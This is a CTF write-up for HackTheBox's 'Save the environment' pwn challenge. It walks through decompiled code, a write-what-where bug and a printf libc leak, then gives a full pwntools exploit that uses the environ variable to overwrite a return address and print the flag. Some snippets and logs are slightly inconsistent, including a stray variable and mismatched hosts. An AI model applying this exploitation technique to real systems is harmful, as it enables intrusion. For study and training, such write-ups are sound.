

# CTF HackTheBox 2021 Cyber Apocalypse 2021 - Save the environment

Category: Pwn, Points: 325


Attached file [pwn_save_the_environment.zip](pwn_save_the_environment.zip)

# Save the environment Solution

Let's check the binary using ```checksec```:
```
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/pwn/environment]
└──╼ $ checksec environment
[*] '/ctf_htb/cyber_apocalypse/pwn/environment/environment'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

[Full RELRO](https://ctf101.org/binary-exploitation/relocation-read-only/) (removes the ability to perform a "GOT overwrite" attack), [Canary](https://ctf101.org/binary-exploitation/stack-canaries/), [NX enabled](https://ctf101.org/binary-exploitation/no-execute/) and [No PIE](https://en.wikipedia.org/wiki/Position-independent_code).

By running the binary we get the following:

```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/pwn/environment]
└──╼ $ ./environment 

🌲 Save the environment ♻

            *
           ***
          *****
         *******
        *********
       ***********
      *************
     ***************
           | |
           | |
           | |


1. Plant a 🌲

2. Recycle ♻
> 

```

By observe the code using [Ghidra](https://ghidra-sre.org/) we can see few intresing functions.

The first function is ```plant```:
```c

void plant(undefined4 param_1,undefined4 param_2,undefined4 param_3,undefined4 param_4,
          undefined4 param_5,undefined4 param_6,undefined4 param_7,undefined4 param_8,
          undefined8 param_9,undefined8 param_10,char *param_11,undefined8 param_12,
          undefined8 param_13,undefined8 param_14)

{
  ulonglong *puVar1;
  ulonglong uVar2;
  char *extraout_RDX;
  char *extraout_RDX_00;
  long in_FS_OFFSET;
  undefined4 uVar3;
  undefined4 extraout_XMM0_Da;
  undefined in_stack_ffffffffffffffa8;
  char local_48 [32];
  char local_28 [24];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  uVar3 = check_fun(param_1,param_2,param_3,param_4,param_5,param_6,param_7,param_8,rec_count,
                    param_10,param_11,param_12,param_13,param_14);
  color(uVar3,param_2,param_3,param_4,param_5,param_6,param_7,param_8,&DAT_00401a58,"green",
        extraout_RDX,param_12,param_13,param_14,in_stack_ffffffffffffffa8);
  printf("> ");
  read(0,local_48,0x10);
  puVar1 = (ulonglong *)strtoull(local_48,(char **)0x0,0);
  putchar(10);
  color(extraout_XMM0_Da,param_2,param_3,param_4,param_5,param_6,param_7,param_8,
        "Where do you want to plant?\n1. City\n2. Forest\n","green",extraout_RDX_00,param_12,
        param_13,param_14,(char)puVar1);
  printf("> ");
  read(0,local_28,0x10);
  puts("Thanks a lot for your contribution!");
  uVar2 = strtoull(local_28,(char **)0x0,0);
  *puVar1 = uVar2;
  rec_count = 0x16;
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  rec_count = 0x16;
  return;
}
```

By the following ```*puVar1 = uVar2;``` we can see we can [write-what-where](https://cwe.mitre.org/data/definitions/123.html).

It's mean our input converting to ```unsigned long long``` using  ```puVar1 = (ulonglong *)strtoull(local_48,(char **)0x0,0);``` and ```uVar2 = strtoull(local_28,(char **)0x0,0);``` and then we can write the content of ```uVar2``` to address pointed by ```puVar1```.

The second function is ```form```:
```c
void form(undefined4 param_1,undefined4 param_2,undefined4 param_3,undefined4 param_4,
         undefined4 param_5,undefined4 param_6,undefined4 param_7,undefined4 param_8,
         undefined8 param_9,undefined8 param_10,char *param_11,undefined8 param_12,
         undefined8 param_13,undefined8 param_14)

{
  char *__s;
  char *extraout_RDX;
  long in_FS_OFFSET;
  undefined4 extraout_XMM0_Da;
  undefined in_stack_ffffffffffffffc8;
  undefined4 local_2c;
  char local_28 [24];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_2c = 0;
  color(param_1,param_2,param_3,param_4,param_5,param_6,param_7,param_8,
        "Is this your first time recycling? (y/n)\n>","magenta",param_11,param_12,param_13,param_14
        ,in_stack_ffffffffffffffc8);
  read(0,&local_2c,3);
  putchar(10);
  if (((char)local_2c == 'n') || ((char)local_2c == 'N')) {
    rec_count = rec_count + 1;
  }
  if (rec_count < 5) {
    color(extraout_XMM0_Da,param_2,param_3,param_4,param_5,param_6,param_7,param_8,
          "Thank you very much for participating in the recyclingprogram!\n","magenta",extraout_RDX
          ,param_12,param_13,param_14,in_stack_ffffffffffffffc8);
  }
  else {
    if (rec_count < 10) {
      color(extraout_XMM0_Da,param_2,param_3,param_4,param_5,param_6,param_7,param_8,
            "You have already recycled at least 5 times! Please accept this gift: ","magenta",
            extraout_RDX,param_12,param_13,param_14,in_stack_ffffffffffffffc8);
      printf("[%p]\n",printf);
    }
    else {
      if (rec_count == 10) {
        color(extraout_XMM0_Da,param_2,param_3,param_4,param_5,param_6,param_7,param_8,
              "You have recycled 10 times! Feel free to ask me whatever you want.\n> ","cyan",
              extraout_RDX,param_12,param_13,param_14,in_stack_ffffffffffffffc8);
        read(0,local_28,0x10);
        __s = (char *)strtoull(local_28,(char **)0x0,0);
        puts(__s);
      }
    }
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

We can see leak of ```printf``` function ```printf("[%p]\n",printf);``` which can help us to get the libc base address.

And by observe the Defined Strings we can see the following intresing strings:



Which referened by the function ```hidden_resources```:
```c
void hidden_resources(void)

{
  FILE *__stream;
  size_t sVar1;
  long in_FS_OFFSET;
  int local_64;
  undefined8 local_58;
  undefined8 local_50;
  undefined8 local_48;
  undefined8 local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined2 local_28;
  undefined local_26;
  long local_20;
  
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  puts("You found a hidden vault with resources. You are very lucky!");
  local_58 = 0;
  local_50 = 0;
  local_48 = 0;
  local_40 = 0;
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_26 = 0;
  __stream = fopen("./flag.txt","r");
  if (__stream == (FILE *)0x0) {
    puts("Error opening flag.txt, please contact the admin");
                    /* WARNING: Subroutine does not return */
    exit(0x16);
  }
  fgets((char *)&local_58,0x32,__stream);
  local_64 = 0;
  while( true ) {
    sVar1 = strlen((char *)&local_58);
    if (sVar1 <= (ulong)(long)local_64) break;
    putchar((int)*(char *)((long)&local_58 + (long)local_64));
    local_64 = local_64 + 1;
  }
  fclose(__stream);
  if (local_20 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

So we can make this function called and to get [ret2win](https://int0x33.medium.com/day-1-rop-emporium-ret2win-64bit-bb0d1893a3b0).

According the information we have so far we can:
1. Leak ```libc``` address with ```printf``` leak address ( ```printf("[%p]\n",printf);``` - from ```form``` function).
2. [write-what-where](https://cwe.mitre.org/data/definitions/123.html) from ```plant``` function - ```*puVar1 = uVar2;```.
3. ```hidden_resources``` function.

As we seen we have [Full RELRO](https://ctf101.org/binary-exploitation/relocation-read-only/) (removes the ability to perform a "GOT overwrite" attack) so we need to find another technique - according the challenge name we can get the hint that we need to get the ```environ``` - which is a variable in libc that stores the address of a part of the stack. If we have a libc base address, we can easily get where the environ variable is.

If we can get the address of ```environ```  this will give us a stack address. Since the offsets will always be the same, we can get our ```rbp + 0x8``` address just using the stack address that we glean.

So let's write it.

First, Leak address of ```printf```:
```python
from pwn import *

binary = context.binary = ELF('./environment')

if args.REMOTE:
        libc = ELF('./libc.so.6')
        p = remote('188.166.172.13',30111)
else:
	# When we running locally use this libc, in remote we will use the attached libc
        #libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
	libc = ELF('/lib/x86_64-linux-gnu/libc-2.27.so')
        p = process(binary.path)

#leak printf address
for _ in range(5):
	p.sendlineafter('>','2')
	p.sendlineafter('>','1')
	p.sendlineafter('>','n')

data=p.recvuntil(']').decode('utf-8').split('[')[-1].split(']')[0] #.strip('\x1b[0m[')
libc_leak_printf=int(data,16)
log.info("printf leak address: " + hex(libc_leak_printf))
libc.address = libc_leak_printf - libc.sym.printf
log.info("libc.address: " + hex(libc.address))
```

Next, Get the address of ```environ```:
```python
#leak envior address
for _ in range(5):
        p.sendlineafter('>','2')
        p.sendlineafter('>','1')
        p.sendlineafter('>','n')

p.sendlineafter('> ',hex(libc.sym.environ))
p.recv(4) # ANSI color  
data = p.recv(6)
environ = u64(_ + b'\0\0')
log.info('environ address: ' + hex(environ))
```

Now we have the address of ```environ```, We need to calculate the offset between ```enviorn``` to ```rip``` on ```plant``` function (which is the function with write-what-where), To do that we can use ```gdb```:
```asm
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/pwn/environment]
└──╼ $ gdb -q environment
gef➤  b *plant
Breakpoint 1 at 0x401383
gef➤  r
Starting program: /ctf_htb/cyber_apocalypse/pwn/environment/environment 

🌲 Save the environment ♻

            *
           ***
          *****
         *******
        *********
       ***********
      *************
     ***************
           | |
           | |
           | |


1. Plant a 🌲

2. Recycle ♻
> 1
gef➤  p/x (long)(environ)-(long)$rsp
$1 = 0x120
```	

So the offset is ```0x120```, So we need to write the address of ```hidden_resources``` to ```environ-0x120``` which is the rip.

```python
#Write address of hidden_resource to environ-0x120 (calculated using p/x (long)(environ)-(long)$rsp on plant function)
p.sendlineafter('>','1')
p.sendlineafter('>',hex(environ-0x120))
p.sendlineafter('>',hex(binary.sym.hidden_resources))
print(p.recvuntil('}')) # until the end of the flag
```

So let's write all together in [exploit.py](exploit.py):
```python
from pwn import *

binary = context.binary = ELF('./environment')

if args.REMOTE:
        libc = ELF('./libc.so.6')
        p = remote('188.166.172.13',30121)
else:
	# When we running locally use this libc, in remote we will use the attached libc
        #libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
	libc = ELF('/lib/x86_64-linux-gnu/libc-2.27.so')
        p = process(binary.path)


#leak printf address
for _ in range(5):
	p.sendlineafter('>','2')
	p.sendlineafter('>','1')
	p.sendlineafter('>','n')

data=p.recvuntil(']').decode('utf-8').split('[')[-1].split(']')[0] #.strip('\x1b[0m[')
libc_leak_printf=int(data,16)
log.info("printf leak address: " + hex(libc_leak_printf))
libc.address = libc_leak_printf - libc.sym.printf
log.info("libc.address: " + hex(libc.address))

#leak envior address
for _ in range(5):
        p.sendlineafter('>','2')
        p.sendlineafter('>','1')
        p.sendlineafter('>','n')

p.sendlineafter('> ',hex(libc.sym.environ))
p.recv(4) # ANSI color
data = p.recv(6)
environ = u64(data + b'\0\0')
log.info('environ address: ' + str(hex(environ)))


#Write address of hidden_resource to environ-0x120 (calculated using p/x (long)(environ)-(long)$rsp on plant function)
p.sendlineafter('>','1')
p.sendlineafter('>',hex(environ-0x120))
p.sendlineafter('>',hex(binary.sym.hidden_resources))
print(p.recvuntil('}'))
```

Run it:
```asm
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/pwn/environment]
└──╼ $ python exploit.py REMOTE=1
[*] '/ctf_htb/cyber_apocalypse/pwn/environment/environment'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 138.68.141.182 on port 31076: Done
[*] '/pwd/datajerk/cyberapocalypsectf2021/save_the_environment/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] printf: 0x7fef03d4df70
[*] libc.address: 0x7fef03ce9000
[*] environ: 0x7fff09518b18
CHTB{u_s4v3d_th3_3nv1r0n_v4r14bl3!}
```

And we get the flag ```CHTB{u_s4v3d_th3_3nv1r0n_v4r14bl3!}```.